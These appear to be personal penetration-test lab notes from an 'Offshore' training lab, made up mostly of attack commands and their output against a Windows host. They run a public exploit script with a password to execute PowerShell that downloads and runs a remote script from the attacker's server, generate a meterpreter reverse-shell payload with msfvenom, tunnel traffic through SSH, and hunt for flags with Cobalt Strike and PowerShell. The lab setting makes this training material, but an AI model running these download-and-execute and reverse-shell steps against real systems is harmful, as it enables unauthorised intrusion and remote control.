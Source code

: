 ```powershell
┌──(root㉿kali)-[/home/kali/Documents/Offshore_Pro_Labs/172.16.1.30_MS01]
└─# proxychains python3 47255.py -u admin -t http://172.16.1.30 -p 'Zaq12wsx!' -c "powershell iwr http://10.10.14.39:8000/amsi.txt"
```
Calling file
```powershell
┌──(root㉿kali)-[/home/kali/Documents/Offshore_Pro_Labs/172.16.1.30_MS01]
└─# proxychains python3 47255.py -u admin -t http://172.16.1.30 -p 'Zaq12wsx!' -c "IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/amsi.txt'))"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  172.16.1.30:80  ...  OK
[+] Successfully created Workflow
[!] Executing Code . . .
[+] Code appears to have run successfully!
[!] Cleaning up . . .
[+] Exploit complete!

```
Making a reverse shell to try to get RCE
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.39 lport=4444 -f exe -o payload.exe
```
Was able to transfer over payload.exe
```powershell
proxychains python3 47255.py -u admin -t http://172.16.1.30 -p 'Zaq12wsx!' -c "powershell iwr http://10.10.14.39:8000/payload.exe"``
```

### What Was actually used
FoxyProxy Configs that enables utilizing proxychains 
![[Pasted image 20231005094240.png]]
![[Pasted image 20231005094350.png]]
![[Pasted image 20231005094424.png]]
```
`Instead of Proxychains 

[root💀~/offshore/nix01] [10.10.14.39] [2023-10-06 11:19:53] 
 └─╼ # ssh 10.10.110.123 -i root_rsa -D 1080
```

Browse to this location `http:\\172.16.1.30:80\`
![[Pasted image 20231005114059.png]]
CobaltStrike ways to pull flag if already have a cobalt session.
```shell
beacon> shell findstr /s OFFSHORE( *
```

```powershell
Powershell flag hunting
gci  -PATH C:\ -Recurse - ErrorAction SilentlyCOntinue | Select-String -Pattern "OFFSHORE{" | Select-Object -First 1
```

